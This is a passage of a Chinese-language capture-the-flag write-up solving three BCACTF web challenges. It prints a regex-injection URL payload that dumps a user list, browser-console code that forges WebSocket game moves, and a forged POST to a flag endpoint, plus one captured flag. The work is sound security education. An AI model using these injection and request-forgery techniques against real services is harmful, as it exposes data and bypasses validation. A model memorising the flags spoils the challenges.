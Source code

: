 把用户输入嵌入到正则里面匹配。。。直接注入通配 payload

```
http://challs.bcactf.com:30390/?name=.*
```

爆出来

```json
{"rtnValues":["Ricardo Olsen","April Park","Francis Jackson","Ana Barry","Clifford Craig","Andrew Wise","Ada Atkinson","Janis McIntosh","Rosie Parsons","Neal Weaver","Alyssa Robison","Michael Hurst","Roberto Thornton","Renee Schwartz","Darryl Wilson","Wayne Boyle","Loretta Camacho","Bert Morton","Suzanne Johnson","Carol Fowler","Rose Hansen","Aimee Norman","Bethany Foley","Benjamin Baily","David Hull","Sabrina Fish","Rick Kirby","Edgar Grimes","Blake McDermott","Alicia Crosby","Teresa Ortega","Carroll Darling","Louis Tate","Phillip Fuller","Clinton Kimball","Alma Matthews","Stacie Franklin","Lucinda Steward","Gina Andrews","Philip Hyde","Devin Riggs","Michelle Thornton","Rogelio Freeman","Arthur Stephens","Andy Leon","Megan Gould","Myrna Yates","Edwin Pearce","Shirley Cannon","Lowell Cochran","Flag Holder"]}
```

最后一个就是flag，然后题目提示第一个用户的id是1，那最后一个就是51。

### Tic-Tac-Toe

跟人工智能(zhang)玩井字棋，去年hackergame有[类似的题目](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E4%BA%95%E5%AD%97%E6%A3%8B/README.md)。思路几乎一样，F12抓包，修改伪造请求然后发送。

```javascript
const ws = new WebSocket((location.origin + '/ws').replace('http', 'ws'))
for(let i = 0; i < 3; i++) {
    ws.send(JSON.stringify({
        packetId: 'move',
        position: i
    }))
}
```

flag 在 ` F12 -> Network` 里的websokcet里面: 

````json
{"packetId":"gameOver","message":"You win! bcactf{7h3_m4st3r_0f_t1ct4ct0e_678d52c8}"}
````

### Phone Number

前端摇骰子输入号码。直接伪造即可（源代码被丑化过

```javascript
async function submit  ( ) {
 await fetch('/flag',	{
 method : "POST" ,
 body : 1234567890
 }).then ((res) => 
    res.text()).then((text)	=> text.length !== 0 ? document.body.innerHTML = text:alert("Sorry, incorrect."));
}
submit();
```
